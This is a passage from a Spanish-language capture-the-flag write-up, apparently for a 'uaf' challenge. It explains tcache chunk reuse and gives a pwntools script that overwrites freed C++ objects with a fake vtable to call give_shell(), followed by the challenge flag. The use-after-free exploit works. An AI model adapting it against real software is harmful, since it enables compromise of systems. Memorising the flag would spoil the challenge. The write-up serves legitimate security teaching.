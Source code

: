Cuando un chunk es liberado generalmente va primero a una de las `tcachebins`, y si se intenta reservar un nuevo chunk del mismo tamaño se reutiliza el ultimo en entrar a la tcachebin del tamaño correspondiente.

Podemos entonces corromper los chunks de Man y Woman.

La estrategia es sencilla:
- Usamos la opcion 3 ("free") para liberar los dos chunks Man y luego Woman, la tcachebin de 0x30 bytes luce algo asi:
   `Woman_Free_Chunk <- Man_Free_Chunk <- HEAD`
- Usamos la opcion 2 ("after") para crear chunks del mismo tamaño que los objetos (0x30 bytes). Tenemos que hacer esto dos veces porque en el primer alloc sobreescribimos Woman, y en el segundo, Man.
- Usamos la opcion 3 ("use") para invocar a `Human::give_shell()`.

## Exploit
``` py
from pwn import *
# Fake Man Vtable
# originally 0x4182b0 => 00404d80, which results in rdx = 00404d80 + 8 (Man::Introduce)
# If we do 0x4182b0 => 00404d78, it results in rdx = 00404d78 + 8 (Man::give_shell)
payload =  p64(0x404d78)
payload += p64(0x19)
payload += p64(0x4182d0)
payload += p64(0x4)
payload += p64(0x6b63614a)
payload += p64(0x0)

assert len(payload) == 0x30

# I found that using /dev/stdin instead of a regular file is more elegant
r = process(["./uaf","48","/dev/stdin"])

# Free
r.sendlineafter(b"3. free",b"3")

# Overwrite Woman instance
r.sendlineafter(b"3. free",b"2")
r.sendline(payload)

# Overwrite Man instance
r.sendlineafter(b"3. free",b"2")
r.sendline(payload)

# Shell
r.sendlineafter(b"3. free",b"1")
r.interactive()
```

`d3lici0us_fl4g_after_pwning`
